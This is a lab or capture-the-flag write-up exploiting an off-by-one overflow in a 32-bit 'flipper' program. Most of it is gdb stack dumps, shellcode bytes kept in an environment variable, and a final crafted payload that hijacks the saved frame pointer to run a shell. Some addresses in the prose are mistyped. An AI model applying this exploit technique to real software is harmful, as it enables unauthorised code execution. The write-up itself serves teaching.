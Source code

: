 # 01 - Vega Writeup

## Main Idea

The code is vulnerable the boardary check in flip in off by one, It should be less than 64, however, the boardary check in code is less and equal than 64. This can lead to a off-by-one attack.

There is a clever methods to bypass the check of RIP. At first, we use the address of shellcode to fill in all the buffer. And then use the off-by-one attack to overwrite the SFP. At second, the function will return rightly, but the SFP is tampered. Next, the tampered SFP will impact RIP of function in the next call. Since the whole buffer is filled with address of shellcode, we will return to the SHELLCODE.

Don't forget to flip the output of args according to the `flipper.c`.

## address of shellcode

Firstly, we need to find the location of SHELLCODE (), which is in the environment variable. So we know the shellcode begins with `0xcd58326a`, thus the magic number is `0xffffdf9c`

``` c++
(gdb) p environ[0]
$1 = 0xffffd801 "SHLVL=1"
(gdb) p environ[1]
$2 = 0xffffd809 "PAD=", '\377' <repeats 196 times>...
(gdb) p environ[2]
$3 = 0xffffdf7e "TERM=screen"
(gdb) p environ[3]
$4 = 0xffffdf8a "SHELL=/bin/sh"
(gdb) p environ[4]
$5 = 0xffffdf98 "EGG=j2X̀\211É\301jGX̀1\300Ph-iii\211\342Ph+mmm\211\341Ph//shh/b
in\211\343PRQS\211\341\061Ұ\v̀"
(gdb) x/16x environ[4]
0xffffdf98:     0x3d474745      0xcd58326a      0x89c38980      0x58476ac1
0xffffdfa8:     0xc03180cd      0x692d6850      0xe2896969      0x6d2b6850      
0xffffdfb8:     0xe1896d6d      0x2f2f6850      0x2f686873      0x896e6962      
0xffffdfc8:     0x515250e3      0x31e18953      0xcd0bb0d2      0x57500080 
```

## address of return address (RIP)

We can get RIP by `info frame`, which is `0xfffd614`
(gdb) i f

``` c++
Stack level 0, frame at 0xffffd618:
 eip = 0x8049260 in invoke (flipper.c:20); saved eip = 0x804927a
 called by frame at 0xffffd608
 source language c.
 Arglist at 0xffffd610, args:
    in=0xffffd7bf "\274\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337߼\377\337\337 "
 Locals at 0xffffd610, Previous frame's sp is 0xffffd618
 Saved registers:
  ebp at 0xffffd610, eip at 0xffffd614
```

## address of buf

We can get the address of buf by `print &buf`, which is `0xffffd5d0`

```C++
(gdb) p &buf
$6 = (char (*)[64]) 0xffffd5d0
```

## the stack before attack

```c++
(gdb) x/20x buf
0xffffd5d0:     0x00000000      0x00000001      0x00000000      0xffffd78b
0xffffd5e0:     0x00000002      0x00000000      0x00000000      0x00000000
0xffffd5f0:     0x00000000      0xffffdfe5      0xf7ffc540      0xf7ffc000
0xffffd600:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd610:     0xffffd61c      0x0804927a      0xffffd7bf      0xffffd628
```

## the stack after attack

note that the SFP is tampered to 0xfffd600, the new RIP will be the SFP + 4 = 0xfffd604

```C++
(gdb) x/20x buf
0xffffd5d0:     0xffffdf9c      0xffffdf9c      0xffffdf9c      0xffffdf9c
0xffffd5e0:     0xffffdf9c      0xffffdf9c      0xffffdf9c      0xffffdf9c
0xffffd5f0:     0xffffdf9c      0xffffdf9c      0xffffdf9c      0xffffdf9c
0xffffd600:     0xffffdf9c      0xffffdf9c      0xffffdf9c      0xffffdf9c
0xffffd610:     0xffffd600      0x0804927a      0xffffd7bf      0xffffd628
```

## EGG output

thus the output of arg will be  `52 * "A" + "\x9c\xdf\xff\xff" + 8 * "A" + "\x00"` xor `\x20`
